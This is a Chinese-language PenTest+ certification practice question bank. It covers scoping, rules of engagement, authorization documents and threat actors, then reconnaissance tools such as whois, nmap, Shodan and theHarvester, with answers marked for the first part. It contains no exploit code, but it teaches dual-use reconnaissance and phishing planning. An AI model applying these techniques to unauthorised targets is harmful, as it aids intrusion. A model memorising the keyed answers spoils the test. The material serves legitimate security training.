3. 渗透测试将使用真实攻击者可用的相同工具和技术。
4. 交战规则和使用的评估类型应确保识别出所有已知漏洞。

## 135. 你正在与一位新客户谈判即将进行的渗透测试。他们要求你对他们的网络执行“零知识”测试。你应该执行哪种类型的渗透测试？

1. **黑盒**
2. 灰盒
3. 白盒
4. 基于合规性

## 136. 你正在与一位新客户谈判即将进行的渗透测试。他们要求你对他们的网络执行“部分知识”测试。你应该执行哪种类型的渗透测试？

1. 黑盒
2. **灰盒**
3. 白盒
4. 基于目标

## 137. 你正在与一位新客户协商即将进行的渗透测试。他们要求你对其网络执行“全知”测试。你应该执行哪种类型的渗透测试？

1. 黑盒
2. 灰盒
3. **白盒**
4. 基于目标

## 138. 你正在与一位新客户确定即将进行的白盒渗透测试的范围。他们的网络采用使用 IPSec 的网络准入控制 (NAC)。你的渗透测试人员需要使用哪种技术才能访问受 NAC 保护的安全内部网络？

1. **证书绑定**
2. 会话劫持
3. 中间人攻击
4. 跨站脚本攻击

## 139. 你在一家渗透测试公司工作。你一直在与客户确定即将进行的渗透测试的范围。你已与 CIO 合作确定了评估范围，例如范围内和范围外的系统、将使用的方法论、允许的技术以及时间表。你已准备好最终版协议草案以供签署。谁应该签署它？

1. **适当的签署授权人**
2. IT 经理
3. CIO
4. 任何服务台人员都可以签署批准该协议。

## 140. 你在一家渗透测试公司工作。你一直在与客户确定即将进行的渗透测试的范围。在范围文档中，你包含了警告性条款，指出本次测试使用的方法论和技术可能会导致关键系统在一段时间内离线。你要求客户确认这是可以接受的。这是以下哪项的示例？

1. **评估影响容忍度**
2. 完整性免责声明
3. 时间点免责声明
4. 完成评估的规则

## 141. 你正在为即将进行的渗透测试定义交战规则 (ROE)。这将是一项白盒评估。你规定目标在测试期间不得使用拒绝访问或黑名单机制。你规定目标必须向你提供内部网络访问权限、网络拓扑图和身份验证凭据。你还规定测试期间 SaaS 服务提供商提供的应用程序将在范围内。你需要从谁那里获得书面授权才能执行此测试？（选择两项。）

1. **目标组织**
2. 互联网名称与数字地址分配机构 (ICANN)
3. 美国互联网号码注册中心 (ARIN)
4. **SaaS 服务提供商**
5. 公共利益注册管理机构 (PIR)

## 142. 你正在为即将进行的渗透测试定义交战规则 (ROE)。这将是一项白盒评估。这将是一项内部测试。不得涉及第三方。以下哪些资源可能被视为评估的范围内对象？（选择两项。）

1. 邻近组织使用的无线网络
2. **他们用于存储加密密钥的密钥管理系统**
3. 组织的互联网服务提供商 (ISP)
4. 他们的 Amazon Web Services (AWS) 内容分发系统
5. **他们的路由器配置**

## 143. 你正在为即将进行的渗透测试定义交战规则 (ROE)。这将是一项灰盒评估。这将是一项内部测试。在进行评估时，你可能会遇到哪些限制？（选择两项。）

1. **你将拥有有限的网络访问权限。**
2. 你将遭遇内部 IT 人员的抵制。
3. **你将拥有有限的存储访问权限。**
4. 不允许你进入组织的设施。
5. 不允许你在组织的网络基础设施设备（如服务器、路由器和交换机）上运行漏洞扫描。

## 144. 一名安全分析师收到了一份即将进行的渗透测试范围大纲。该文档包含每个目标可被扫描的时间以及 IP 地址。哪份文件会包含这些信息？

1. 业务影响分析 (BIA)
2. 主服务协议 (MSA)
3. 建议书请求 (RFP)
4. **交战规则 (RoE)**

## 145. 一名安全分析师计划使用黑盒渗透测试。这种类型的策略将为测试人员提供以下哪项内容？

1. 特权凭据
2. 网络拓扑图
3. 源代码
4. **无；他们必须自行进行发现。**

## 146. 客户要求进行外部网络渗透测试，但在渗透测试人员与客户的讨论中，客户不愿在测试期间将测试人员的源 IP 地址添加到其 IPS 白名单中。以下哪项论点最能说明为什么测试人员的源 IP 地址应该位于客户的 IPS 白名单中？

1. IPS 白名单规则需要定期更新以保持最新，以应对不断出现的漏洞和新发现的弱点。
2. 对第三方 IPS 系统的渗透测试通常需要额外的授权和文档，这可能会延迟时效性要求高的测试。
3. **测试应侧重于通过所有范围内系统发现潜在的安全问题，而不仅仅是确定 IPS 等主动防御的有效性。**
4. 白名单可防止对 IPS 及支持的日志监控系统发起可能的非故意 DoS 攻击。

## 147. 一名安全分析师正试图构建专用的 XML 文件，以便在测试期间测试 Windows 应用程序解析功能的安全性。在开始测试应用程序之前，分析师应向客户请求以下哪项内容？

1. 协议模糊测试工具
2. 特定应用程序的软件开发工具包 (SDK)
3. **简单对象访问协议 (SOAP) 项目文件的示例**
4. 表述性状态转移 (REST) 应用程序编程接口 (API) 文档

## 148. 在规划约定时，以下哪项最重要？（选择两项。）

1. 架构图
2. 公司政策
3. **目标/目的**
4. 报告存储时间
5. **影响容忍度**

## 149. 以下哪项陈述源自客户的公司政策？

1. 公司系统必须使用 MD5 哈希算法存储密码
2. **员工密码必须包含至少八个字符，其中一个为字母数字**
3. 联系服务台执行密码重置的电话号码
4. 为了访问公司资产，员工必须使用强密码

## 150. 你是一名性能测试人员，正在与客户讨论执行基于合规性的评估。哪项是重要的关键考虑因素？

1. 任何额外费率
2. 任何公司政策
3. **行业类型**
4. 影响容忍度

## 151. 你是一名渗透测试人员，正在与客户讨论在执行渗透测试时保持任何发现机密性的重要性。为什么在执行渗透测试时保持机密性很重要？

1. 发现是包含特权信息的法律文件。
2. **发现可协助攻击者攻破系统。**
3. 发现通常包含公司知识产权。
4. 如果结果公开，发现可能导致消费者不满。

## 152. 一名渗透测试人员正在测试过程中，客户要求测试人员添加更多地址。以下哪项定义了测试人员可遵循的目标列表？

1. 最终用户许可协议
2. 主服务协议 (MSA)
3. **交战规则 (RoE)**
4. 工作说明书 (SOW)

## 153. 你正计划进行一项安全评估。以下哪项对评估预算有重大影响？

1. 合规要求
2. 进度安排
3. **范围界定**
4. 目标风险

## 154. 渗透测试人员受客户委托，模拟一名近期被解职的服务台技术人员。以下哪项最能描述此类威胁行为者的能力？

1. 高级持续性威胁 (APT)
2. 黑客活动家
3. 有组织犯罪
4. **脚本小子**

## 155. 渗透测试人员应随时掌握客户的联系信息。渗透测试人员应立即向客户报告以下哪些情况？（选择三项。）

1. **报告任何关键发现。**
2. 报告破解出的密码。
3. 报告无法利用的发现。
4. **报告妥协指标。**
5. 报告最新发布的漏洞利用代码。
6. **报告变得无响应的服务器。**

## 156. 一位客户最近找到你，表达了担忧：大量公司遭到远程攻击者入侵，这些攻击者正在窃取商业机密。以下哪项最能描述此类寻找商业机密的对手类型？

1. **高级持续性威胁 (APT) 行为体**
2. 黑客活动家组织
3. 内部威胁
4. 脚本小子

## 157. 你是一名渗透测试人员，某公司要求你执行 Web 应用程序渗透测试，以发现任何漏洞。随后该公司又要求你审查额外的代码并检查防火墙设置的更新。客户这是在要求你做什么？

1. 事后审查
2. 风险接受
3. **范围蔓延**
4. 威胁防护

## 158. 渗透测试人员正准备进行 API 测试。在为此次测试做准备时，以下哪项最有帮助？

1. Nikto
2. **Swagger**
3. Web 应用程序归档 (WAR)
4. W3AF

## 159. 洛克希德·马丁公司开发了一个框架，它是情报驱动防御模型的一部分，用于识别和预防网络入侵活动。该模型确定了对手为达成目标必须完成的步骤。该模型被称为“网络杀伤链”模型，由七个阶段组成。当攻击者从组织外部在技术和非技术两个层面评估目标时，处于网络杀伤链的哪个首个阶段？

1. 利用
2. 安装
3. **侦察**
4. 武器化

## 160. 在网络杀伤链的哪个阶段，攻击者会窃取敏感信息、利用未经授权的计算资源发起拒绝服务攻击或篡改信息？

1. **目标行动阶段**
2. 命令与控制阶段
3. 投递阶段
4. 勘探阶段

## 161. 一名渗透测试人员正在进行一项专门针对单个 Web 应用程序的渗透测试。测试人员发现该 Web 服务器还包含目标位置其他服务器的密码列表。测试人员通知了客户。客户随后要求测试人员验证那些服务器。一旦测试人员开始使用这些密码测试其他服务器，发生了什么？

1. 威胁狩猎
2. 横向移动
3. **范围蔓延**
4. 目标扩展

## 162. 你是一名渗透测试人员。你正在考虑一种渗透测试类型，其目的不在于发现尽可能多的漏洞，而是专注于那些与获取特定系统或数据控制权这一目标相一致的漏洞。你打算进行哪种类型的评估？

1. 基于目标的评估
2. 基于合规的评估
3. 基于目的的评估
4. **红队评估**

## 163. 你是一名渗透测试人员，受委托测试一个使用将主机与其公钥关联的认证方法的组织。该组织使用的是哪种认证技术？

1. **证书绑定**
2. 自签名服务器认证
3. SSL 握手
4. X.509 绕过

## 164. 一名攻击者因对新通过的法律不满而攻击了一家政府机构。这属于哪类威胁行为者？

1. 脚本小子
2. **黑客活动家**
3. 有组织犯罪
4. 国家行为体

## 165. 你受委托对一个大型复杂的 IT 基础设施执行渗透测试。部分范围可能涉及由云服务提供商托管的云网络上的内容。执行此类测试需要什么？

1. 仅需客户授权
2. **第三方授权**
3. 环境差异
4. 数据所有权

## 166. 你受委托为客户执行渗透测试。你需要一份法律文件，用于保护客户数据及你可能接触到的其他信息的机密性。这份法律文件叫什么？

1. 竞业禁止协议
2. **保密协议 (NDA)**
3. 主服务协议 (MSA)
4. 工作说明书 (SOW)

## 167. 你受委托为客户执行渗透测试。你需要一份文件来设定两个组织间的总体条款，并将用于双方未来的合作（因为你计划建立支持协议）。这份文件叫什么？

1. 竞业禁止协议
2. 保密协议 (NDA)
3. **主服务协议 (MSA)**
4. 工作说明书 (SOW)

## 168. 你是一名渗透测试人员，正在执行现场渗透测试。在共享办公楼内进行现场无线评估时，你需要了解哪个范围界定要素？

1. 加密类型
2. 无线网络频率
3. 任何预共享密钥
4. **服务集标识符 (SSIDs)**

# 第 2 章：信息收集与漏洞识别

## 本章涵盖的 PENTEST+ 考试主题包括：

### 领域 2：信息收集与漏洞识别

### 2.1 给定场景，使用适当技术进行信息收集。

*   扫描
*   枚举
    *   主机
    *   网络
    *   域
    *   用户
    *   组
    *   网络共享
    *   Web 页面
    *   应用程序
    *   服务
    *   令牌
    *   社交网络站点
*   数据包构造
*   数据包检查
*   指纹识别
*   密码学
    *   证书检查
*   窃听
    *   射频通信监控
    *   嗅探
        *   有线
        *   无线
*   反编译
*   调试
*   开源情报收集
    *   研究来源
        *   CERT
        *   NIST
        *   JPCERT
        *   CAPEC
        *   完全披露
        *   CVE
        *   CWE

### 2.2 给定场景，执行漏洞扫描。

*   凭证扫描 与 非凭证扫描
*   扫描类型
    *   发现扫描
    *   完整扫描
    *   隐蔽扫描
    *   合规扫描
*   容器安全
*   应用程序扫描
    *   动态分析 与 静态分析
*   漏洞扫描的考量因素
    *   扫描运行时间
    *   使用的协议
    *   网络拓扑
    *   带宽限制
    *   查询限流

### 脆弱系统/非传统资产

### 2.3 给定场景，分析漏洞扫描结果。

*   资产分类
*   裁决
    *   误报
*   漏洞优先级排序
*   常见主题
    *   漏洞
    *   观察结果
    *   缺乏最佳实践

## 2.4 解释利用信息准备实施攻击的过程。

*   将漏洞映射到潜在攻击代码
*   为渗透测试准备活动并确定优先级
*   描述完成攻击的常用技术
    *   交叉编译代码
    *   攻击代码修改
    *   攻击链
    *   概念验证开发（攻击代码开发）
    *   社会工程学
    *   凭证暴力破解
    *   字典攻击
    *   彩虹表
    *   欺骗

### 2.5 解释与专用系统相关的弱点。

*   ICS（工业控制系统）
*   SCADA（数据采集与监视控制系统）
*   移动设备
*   IoT（物联网）
*   嵌入式系统
*   销售终端系统
*   生物识别
*   应用容器
*   RTOS（实时操作系统）

---

### 1. 你受邀为一家中型组织执行黑盒渗透测试，该组织在线销售进口摩托车和全地形车（ATV）。在该评估的哪个阶段，你可能会花费大部分时间？

1.  规划与范围界定
2.  **信息收集与漏洞识别**
3.  攻击与利用
4.  报告与结果沟通

### 2. 你正在为一家中型组织执行黑盒渗透测试，该组织通过其在线商店销售进口摩托车和全地形车（ATV）。你需要发现该组织域名的所有者。你的渗透测试工具包中应使用哪个工具？

1.  `nslookup`
2.  **`whois`**
3.  `Shodan`
4.  `Maltego`

### 3. 你正在为一家中型组织执行黑盒渗透测试，该组织通过其在线商店销售进口服装。你需要发现与该组织域名关联的 IP 地址。你的渗透测试工具包中应使用哪个工具？

1.  **`nslookup`**
2.  `whois`
3.  `theHarvester`
4.  指纹识别组织收集档案 (`FOCA`)


### 4. 你正在为一家中型组织执行黑盒渗透测试，该组织通过其在线商店销售进口服装。你想查询搜索引擎和其他资源，以发现电子邮件地址、员工姓名和其他关于目标的详细信息。你的渗透测试工具包中应使用哪个工具？

1.  `nmap`
2.  `Shodan`
3.  `theHarvester`
4.  指纹识别组织收集档案 (`FOCA`)

### 5. 你正在为一家大型组织执行黑盒渗透测试，该组织在美国批发进口电子设备。你需要利用开源情报 (OSINT) 挖掘关于该组织的任何可用信息。你的渗透测试工具包中可以使用哪个工具来完成此任务？

1.  `Censys`
2.  `whois`
3.  `recon-ng`
4.  `Shodan`
5.  以上全部

### 6. 你正在为一家大型组织执行黑盒渗透测试，该组织在美国批发进口电子设备。你需要探测该组织 Web 服务器的 IP 地址，以查看与之关联的信息，例如 SSL 或 TLS 的版本以及使用的密码套件。你的渗透测试工具包中可以使用哪个工具来完成此任务？

1.  `Censys`
2.  `nslookup`
3.  `Maltego`
4.  `Shodan`

### 7. 你正在为一家大型金融组织执行黑盒渗透测试。你想在互联网上搜索与该组织关联的任何文档（如 Microsoft Word 或 PowerPoint 文档），并分析每个文件的元数据以获取有用信息。你的渗透测试工具包中可以使用哪个工具来完成此任务？

1.  `Censys`
2.  `Shodan`
3.  `nmap`
4.  指纹识别组织收集档案 (`FOCA`)

### 8. 一位顾问受聘于某组织执行黑盒渗透测试。她知道物联网设备经常采用薄弱的安全机制，渗透测试人员可以利用这一点。她想发现目标组织是否部署了这些设备。她可以使用哪个实用程序来完成此任务？

1.  `Censys`
2.  `Shodan`
3.  `theHarvester`
4.  `Maltego`

### 9. 一位顾问受聘于某组织执行黑盒渗透测试。她已使用各种工具收集关于目标信息的 OSINT。她的工作非常成功。事实上，她收集了如此多的信息，以至于难以将其组织成可高效使用的格式。她可以使用哪个工具来组织已收集的信息？

1.  `Censys`
2.  `Shodan`
3.  `theHarvester`
4.  `Maltego`

### 10. 一位顾问受聘于某组织执行黑盒渗透测试。她想对目标组织的公共 Web 服务器执行详细扫描，以了解相关情况。她应使用哪个实用程序来完成此任务？

1.  `nmap`
2.  `Shodan`
3.  `whois`
4.  `Maltego`

### 11. 你受聘为一位客户进行黑盒渗透测试。你想利用鱼叉式网络钓鱼攻击来暴露该组织关键员工使用的身份验证凭证。你可以使用哪些工具或技术来收集实施此攻击所需的信息？（选择两项。）

1.  垃圾箱搜寻
2.  `theHarvester`
3.  `nmap` 扫描
4.  `Nessus` 扫描
5.  `Shodan`

### 12. 你受聘为一位客户进行黑盒渗透测试。你想利用鲸钓攻击来暴露该组织领导层使用的身份验证凭证。你可以使用哪些信息来实施此攻击？（选择两项。）

1.  `Nessus` 扫描
2.  新闻稿
3.  `Censys` 探测
4.  `OpenVAS` 扫描
5.  高管简历

### 13. 以下哪些可被视为与渗透测试目标相关的 OSINT？（选择两项。）

1.  社交媒体帖子
2.  `nmap` 扫描结果
3.  员工的社会安全号码
4.  公司税务申报
5.  高管层的个人税务申报

### 14. 以下哪些可被视为与渗透测试目标相关的 OSINT？（选择两项。）

1.  `Nessus` 扫描结果
2.  通过尾随进入组织设施的渗透测试人员获取的信息
3.  来自组织 DNS 注册商的信息
4.  组织网站上的招聘广告
5.  从不满的员工处收集的信息

### 15. 你正处于黑盒渗透测试的信息收集阶段。你需要通过确定目标组织使用的网络基础设施类型来对其进行足迹分析。哪些 OSINT 来源可能会泄露此信息？（选择两项。）

1.  组织网站上的招聘广告
2.  对内部网络的 `nmap` 扫描
3.  对内部网络的 `Nessus` 扫描
4.  通过尾随进入组织设施的渗透测试人员获取的信息
5.  LinkedIn 上现任员工的简历

### 16. 你正处于黑盒渗透测试的信息收集阶段。你可以使用哪些工具通过 OSINT 对目标组织进行足迹分析？（选择两项。）

1.  `aircrack-ng`
2.  `whois`
3.  `recon-ng`
4.  `Kismet`
5.  `WiFight`

### 17. 请查看此处所示命令的输出：



收集此信息使用了哪个 OSINT 实用程序？

1.  `whois`
2.  `nslookup`
3.  `nmap`
4.  `ifconfig`
5.  `host`

### 18. 考虑此处显示的命令输出：



使用了哪种 OSINT 实用程序来收集此信息？

1.  `whois`
2.  `nslookup`
3.  `Nessus`
4.  `recon-ng`
5.  `host`

### 19. 考虑此处显示的命令输出：



使用了哪种 OSINT 实用程序来收集此信息？

1.  `whois`
2.  `nslookup`
3.  `nmap`
4.  `recon-ng`
5.  `host`

### 20. 你正在执行侦察，作为黑盒渗透测试的一部分。你对目标组织的一台面向公众的服务器运行漏洞扫描，并发现端口 25 是开放的。这意味着什么？

1.  它是一台 DNS 服务器。
2.  它是一台 SMTP 服务器。
3.  它是一台 FTP 服务器。
4.  它是一台 SMB 文件服务器。

### 21. 你正在执行侦察，作为灰盒渗透测试的一部分。你对目标组织的一台内部服务器运行漏洞扫描，并发现端口 445 是开放的。这意味着什么？

1.  它是一台 DNS 服务器。
2.  它是一台 HTTPS 服务器。
3.  它是一台 SSH 服务器。
4.  它是一台 SMB 文件服务器。

### 22. 你正在执行侦察，作为灰盒渗透测试的一部分。你对目标组织的一台服务器运行漏洞扫描，并发现端口 23 是开放的。这意味着什么？

1.  它是一台 DNS 服务器。
2.  它是一台 SSH 服务器。
3.  它是一台 Telnet 服务器。
4.  它是一台 FTP 服务器。

### 23. 你正在执行侦察，作为黑盒渗透测试的一部分。你对目标组织的一台面向公众的服务器运行漏洞扫描，并发现端口 20 是开放的。这意味着什么？

1.  它是一台 DNS 服务器。
2.  它是一台 FTP 服务器。
3.  它是一台 SSH 服务器。
4.  它是一台 TFTP 服务器。

### 24. 你正在执行侦察，作为灰盒渗透测试的一部分。你对目标组织的一台服务器运行漏洞扫描，并发现端口 69 是开放的。这意味着什么？

1.  它是一台 DNS 服务器。
2.  它是一台域控制器。
3.  它是一台 SSH 服务器。
4.  它是一台 TFTP 服务器。

### 25. 你正在执行侦察，作为灰盒渗透测试的一部分。你对目标组织的一台服务器运行漏洞扫描，并发现有几个端口是开放的，包括 88、135、139、389 和 464。这意味着什么？

1.  它是一台域控制器。
2.  它是一台 POP3 邮件服务器。
3.  它是一台 SSH 服务器。
4.  它是一台 IMAP 邮件服务器。

### 26. 你正在执行侦察，作为灰盒渗透测试的一部分。你对目标组织的一台服务器运行漏洞扫描，并发现端口 143 是开放的。这意味着什么？

1.  它是一台 LDAP 服务器。
2.  它是一台 POP3 邮件服务器。
3.  它是一台 SSH 服务器。
4.  它是一台 IMAP 邮件服务器。

### 27. 你正在执行侦察，作为灰盒渗透测试的一部分。你对目标组织的一台服务器运行漏洞扫描，并发现端口 22 是开放的。这意味着什么？

1.  它是一台 LDAP 服务器。
2.  它是一台 POP3 邮件服务器。
3.  它是一台 SSH 服务器。
4.  它是一台 HTTP 服务器。

### 28. 你正在执行侦察，作为灰盒渗透测试的一部分。你对目标组织的一台服务器运行漏洞扫描，并发现端口 80 和 443 是开放的。这意味着什么？

1.  它是一台 LDAP 服务器。
2.  它是一台 Kerberos 认证服务器。
3.  它是一台 POP3 邮件服务器。
4.  它是一台 HTTP 服务器。

### 29. 你正在执行侦察，作为灰盒渗透测试的一部分。你对目标组织的一台服务器运行漏洞扫描，并发现端口 389 和 636 是开放的。这意味着什么？

1.  它是一台 LDAP 服务器。
2.  它是一台 Kerberos 认证服务器。
3.  它是一台全局目录服务器。
4.  它是一台 DNS 服务器。

### 30. 你正在执行侦察，作为灰盒渗透测试的一部分。你对目标组织的一台服务器运行漏洞扫描，并发现端口 53 是开放的。这意味着什么？

1.  它是一台 NTP 服务器。
2.  它是一台 Kerberos 认证服务器。
3.  它是一台全局目录服务器。
4.  它是一台 DNS 服务器。

### 31. 在黑盒渗透测试的发现阶段，你运行 `traceroute` 命令以发现通过互联网到达目标组织 Web 服务器的路由。结果如下所示：



第 12、13 和 14 行中的 `***` 字符表示什么？

1.  相关设备已配置为不响应 ping。
2.  相关设备的主机名无法由 DNS 服务器解析。
3.  相关设备已宕机。
4.  你的计算机已被路由中的这些设备列入黑名单。

### 32. 在黑盒渗透测试的发现阶段，你使用 centralops.net 网站对目标组织的域名执行侦察。部分结果如下所示：



此域名有哪些面向公众的服务可用？（选择两项。）

1.  FTP
2.  安全邮件
3.  不安全的 Web 服务器
4.  安全的 Web 服务器
5.  不安全的邮件
6.  安全 Shell

### 33. 在黑盒渗透测试的发现阶段，你使用 centralops.net 网站对目标组织的域名执行侦察。部分结果如下所示：


以下哪项陈述是正确的？（选择两项。）

1.  该组织的证书于 2017 年过期。
2.  SHA1 用于签署该组织的证书。
3.  该组织使用 Apache Web 服务器。
4.  SHA256 用于签署该组织的证书。
5.  该组织的 Web 服务器运行在 Windows 上。

### 34. 在黑盒渗透测试的发现阶段，你识别出一个你怀疑属于目标组织高管的电子邮件地址。你使用 centralops.net 网站分析该电子邮件地址。结果如下所示：



从输出中你能了解到什么？

1.  这是一个有效的电子邮件地址。
2.  这是一个无效的电子邮件地址。
3.  此电子邮件地址属于相关高管。
4.  此电子邮件地址属于服务台员工。

### 35. 在黑盒渗透测试的发现阶段，你识别出一个你怀疑属于目标组织高管的电子邮件地址。你使用 centralops.net 网站分析该电子邮件地址。结果如下所示：


从输出中你能了解到什么？

1.  该组织的邮件服务器 IP 地址为 208.101.20.81。
2.  该组织的电子邮件命名约定为 `first_initial`+`lastname`@`company_name`.com。
3.  该组织的电子邮件命名约定为 `first_initial`.`lastname`@`company_name`.com。
4.  该组织的邮件服务器不响应 HELO 命令。

### 36. 在黑盒渗透测试的发现阶段，你识别出一个你怀疑属于目标组织高管的电子邮件地址。你使用 centralops.net 网站分析该电子邮件地址。结果如下所示：


从输出中你能了解到什么？

1.  该组织的邮件服务器 IP 地址为 208.101.20.106。
2.  该组织的邮件服务器位于邮件过滤设备之后。
3.  该组织的邮件服务器运行在 Windows 上，且其防火墙开放了端口 80 和 443。
4.  组织的电子邮件服务器响应 HELO 命令。

### 37. 在白盒渗透测试期间，你使用 `nmap` 实用程序扫描整个子网以查找主机。扫描完成后，你需要枚举发现的系统。你需要为每个发现的设备识别哪些信息？（选择两项。）

1.  安装的服务
2.  执行扫描所用的 `nmap` 版本
3.  子网上的唯一用户数量
4.  安装的操作系统版本
5.  创建物理网络所用的以太网线等级

### 38. 在灰盒渗透测试的发现阶段，你使用 `Zenmap` 实用程序枚举并指纹识别目标组织某个子网上的设备。有个设备特别引起了你的注意。输出如下所示：



从这些信息中你能了解到关于该设备的什么情况？

1.  它是一台 Windows 服务器。
2.  它是一台虚拟机。
3.  它是一台路由器。
4.  它是无线网络的接入点。

### 39. 在灰盒渗透测试的发现阶段，你使用 `Zenmap` 实用程序枚举并指纹识别目标组织某个子网上的设备。有个设备特别引起了你的注意。输出如下所示：


利用这些信息你能了解到关于该设备的什么情况？

1.  该设备处于维护模式。
2.  它正在运行 HTTP 服务。
3.  它已加入 Windows 域。
4.  它由无线控制器管理。

### 40. 在灰盒渗透测试的发现阶段，你使用 `Zenmap` 实用程序枚举并指纹识别目标组织某个子网上的设备。有个设备特别引起了你的注意。输出如下所示：


利用这些信息你能了解到关于该设备的什么情况？

1.  该设备的默认管理员密码
2.  连接的无线客户端数量
3.  设备控制器的 IP 地址
4.  设备控制器的品牌和型号

### 41. 在灰盒渗透测试的发现阶段，你使用 `Zenmap` 实用程序枚举并指纹识别目标组织某个子网上的设备。有个设备特别引起了你的注意。输出如下所示：



从这些信息中你能了解到关于该设备的什么情况？

1.  它是一台 Linux 工作站。
2.  它是一台 Linux 服务器。
3.  它是一台移动设备。
4.  它是一台运行嵌入式 Linux 版本的路由器。

### 42. 在灰盒渗透测试的发现阶段，你使用 `Zenmap` 实用程序枚举并指纹识别目标组织某个子网上的设备。有个设备特别引起了你的注意。输出如下所示：



从这些信息中你能了解到关于该设备的什么情况？

1.  它使用 NTLM 协议进行文件共享。
2.  它缺少来自 Microsoft 的最新更新。
3.  它是一台域控制器。
4.  它是一台文件服务器。

### 43. 在灰盒渗透测试的发现阶段，你使用 `Zenmap` 实用程序枚举并指纹识别目标组织某个子网上的设备。有个设备特别引起了你的注意。输出如下所示：


从这些信息中你能了解到关于该设备的什么情况？

1.  它在其某块硬盘上定义了共享。
2.  它是一台全局编录服务器。
3.  它安装了 Hyper-V 虚拟化程序角色。
4.  它已与另一个域建立联合。
5.  以上都不是。

